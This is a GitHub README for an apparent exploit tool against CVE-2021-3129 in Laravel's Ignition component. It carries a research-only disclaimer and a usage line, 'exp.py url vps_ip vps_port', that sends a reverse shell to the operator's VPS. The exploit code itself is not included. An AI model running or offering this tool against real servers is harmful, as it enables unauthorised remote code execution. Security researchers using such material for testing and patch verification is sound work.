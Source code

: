 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

**仅供测试与研究使用**

**仅供测试与研究使用**

**仅供测试与研究使用**

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# 本地测试结果

如下图,在本地wsl中测试,在自己的vps上收到了shell

![](Snipaste_2021-04-10_09-40-45.jpg)

![](Snipaste_2021-04-10_09-43-48.jpg)


# Usage
`python3 exp.py url vps_ip vps_port`

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 优化了一小部分编码方式
